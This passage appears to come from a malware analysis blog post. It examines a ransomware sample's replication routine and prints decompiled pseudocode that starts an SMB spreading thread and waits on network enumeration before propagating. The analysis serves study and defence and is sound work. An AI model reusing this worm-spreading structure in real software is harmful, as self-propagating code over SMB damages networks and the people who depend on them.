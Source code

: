 ## Replication 

At this point I went back to the ```main()``` function to do some more digging and cleansing. I found the code used for replicating to other systems.
It uses SMB primarily to spread to new systems near the current one. This is the function call used for this:

```c
CreateThread((LPSECURITY_ATTRIBUTES)0x0,0,replicate_over_smb,lpParameter,0,(LPDWORD)0x0);
```

This will create a new thread running in parallel to the current encryption routine. It calls ```replicate_over_smb``` which starts the spreading.
Lets dig into that:

```c
void replicate_over_smb(int *param_1)
{
  int iVar1;
  WCHAR local_420 [522];
  uint local_c;
  
  local_c = DAT_004a1520 ^ (uint)&stack0xfffffffc;
  iVar1 = handle_network_connection(param_1);
  if (iVar1 == 0) {
    wsprintfW(local_420,L"[!] EnumHosts() failed. Exiting spread process.\n");
    if (DAT_004b0df8 == 1) {
      nop(0x496260);
    }
    overflowsafe_exit(local_c ^ (uint)&stack0xfffffffc);
    return;
  }
  iVar1 = param_1[0x431432];
  while (iVar1 == 0) {
    wsprintfW(local_420,L"[*] Waiting for network enumeration to finish...\n");
    if (DAT_004b0df8 == 1) {
      nop(0x496260);
    }
    Sleep(100);
    iVar1 = param_1[0x431432];
  }
  wsprintfW(local_420,L"[*] Network enumeration completed.\n");
  if (DAT_004b0df8 == 1) {
    nop(0x496260);
  }
  FUN_0040a710();
  wsprintfW(local_420,L"[*] SMB spreading completed.\n");
  if (DAT_004b0df8 == 1) {
    nop(0x496260);
  }
  overflowsafe_exit(local_c ^ (uint)&stack0xfffffffc);
  return;
}
```
